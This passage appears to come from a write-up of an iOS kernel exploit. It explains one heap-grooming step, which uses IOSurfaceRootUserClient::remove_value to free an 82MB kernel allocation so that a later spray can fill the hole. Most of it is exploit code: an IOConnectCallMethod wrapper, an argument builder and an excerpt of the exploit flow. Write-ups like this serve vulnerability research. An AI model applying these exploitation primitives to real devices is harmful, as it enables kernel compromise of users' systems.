 Use IOSurface method `IOSurfaceRootUserClient::remove_value` to free 82MB block that was allocated in step 1.

Doing this, it creates a hole into which the XML data blob for the following spray can be mapped.

```cpp
/*
 * IOSurface_remove_value
 *
 * Description:
 * 	A wrapper around IOSurfaceRootUserClient::remove_value().
 */
kern_return_t
IOSurface_remove_value(const struct IOSurfaceValueArgs *args, size_t args_size) {
    struct IOSurfaceValueResultArgs result;
    size_t result_size = sizeof(result);
    kern_return_t kr = IOConnectCallMethod(
            IOSurfaceRootUserClient,
            11, // remove_value
            NULL, 0,
            args, args_size,
            NULL, NULL,
            &result, &result_size);
    if (kr != KERN_SUCCESS) {
        ERROR("failed to %s value in %s: 0x%x", "remove", "IOSurface", kr);
    }
    return kr;
}

...

int IOSurface_remove_property(uint32_t key) {
    uint32_t argsSz = sizeof(struct IOSurfaceValueArgs) + 2 * sizeof(uint32_t);
    struct IOSurfaceValueArgs *args = malloc(argsSz);
    bzero(args, argsSz);
    args->surface_id = IOSurface_id;
    args->xml[0] = key;
    args->xml[1] = 0;
    int ret = IOSurface_remove_value(args, 16);
    free(args);
    return ret;
}

...

    // free huge allocation
    ret = IOSurface_remove_property(huge_kalloc_key);
    if (ret) {
        printf("[-] Failed to remove IOSurface property\n");
        goto err;
    }
```
